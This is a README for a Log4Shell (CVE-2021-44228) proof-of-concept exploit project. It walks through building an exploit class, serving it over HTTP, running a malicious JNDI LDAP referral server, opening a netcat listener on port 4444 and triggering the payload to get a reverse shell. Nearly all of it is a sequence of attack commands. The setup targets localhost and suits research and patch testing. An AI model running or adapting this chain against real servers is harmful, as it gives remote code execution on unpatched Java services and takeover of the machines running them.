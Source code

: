 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

### 1. Using Docker

Build project.

```
./build.sh
# Runs the following commands:
#   cd CVE-2021-44228-Apache-Log4j-Rce/
#   javac Exploit.java
#   mvn clean package
#   docker build -t server . # Build python server docker image
#   cd ../marshalsec/
#   docker build -t japp . # Build ldap server docker image
#   cd ..
```

Run httpserver.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
./run.sh
# Runs the following command:
#   docker run --rm -it --name server -p 8888:8888 server
```

Run vulnerable jndi LDAP server.

```
cd marshalsec/
./run.sh
# Runs the following command
#   docker run --rm -it --name japp -p 1389:1389 japp
```

Create listener on port 4444.

```
nc -nlvp 4444
```

Run payload to execute reverse shell connection to our listener.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

You will now be able to execute shell commands.

### 2. Running everything locally

Compile exploit code and run python web server.

```
cd CVE-2021-44228-Apache-Log4j-Rce/
javac Exploit.java

python -m SimpleHTTPServer 8888   # Python2
python3 -m http.server 8888       # Python3

# Make sure python webserver is running the same directory as Exploit.class, to test
  curl -I 127.0.0.1:8888/Exploit.class
```

Build and run the vulnerable jndi LDAP server.

```
cd marshalsec/
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

Build and run the activation code (simulate an log4j attack on a vulnerable java web server).

```
cd CVE-2021-44228-Apache-Log4j-Rce/
mvn clean package
java -cp target/log4j-rce-1.0-SNAPSHOT-all.jar log4j
```

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec